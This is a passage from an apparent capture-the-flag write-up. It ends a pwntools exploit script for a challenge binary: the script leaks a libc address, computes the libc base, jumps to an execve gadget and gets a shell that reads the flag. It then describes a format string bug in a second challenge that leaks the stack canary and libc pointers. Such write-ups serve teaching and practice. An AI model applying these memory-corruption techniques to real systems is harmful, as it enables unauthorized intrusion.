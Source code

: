 ```
# Stage 3 : Call alarm() to trigger call to do_system()
buf += p64(elf.plt.alarm)

r.sendline(buf)

alarm_libc_leak = int.from_bytes(r.recv()[:6], "little")
print(f"alarm@libc: 0x{alarm_libc_leak:2x}")

libc.address = alarm_libc_leak - libc.sym.alarm
print(f"libc base: 0x{libc.address:2x}")

execve_gadget = libc.address + 0x4f432        # execve() gadget offset
r.sendline(p64(execve_gadget))

r.interactive()
```

Running it gives us a shell on the server to get the flag:

```
► ./sploit.py SILENT=1
alarm@libc: 0x7fc3459f7610
libc base: 0x7fc345913000
[*] Switching to interactive mode
$ ls
flag.txt  system_drop
$ cat flag.txt
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
```

Harvester
---------

This binary challenge includes a copy of `libc.so.6` and is compiled with the works: Full RELRO, NX, stack canary, and PIE. When executed, the binary gives the user four options:

```
► ./harvester

A wild Harvester appeared 🐦

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
>
```

After spending some time analyzing the binary in Cutter, we can determine the following:

### Fight

The `fight()` function prompts the user to select a weapon by reading 5 bytes from the user using `read()`. Whatever weapon is selected results in the message “You are not strong enough to fight yet.”. A format string vulnerability exists in this function which allows us to read pointers on the stack. We are able to leak the stack canary at positions 11, 15, and 19, as well as a libc address (`__libc_start_main()+231`) at position 21.
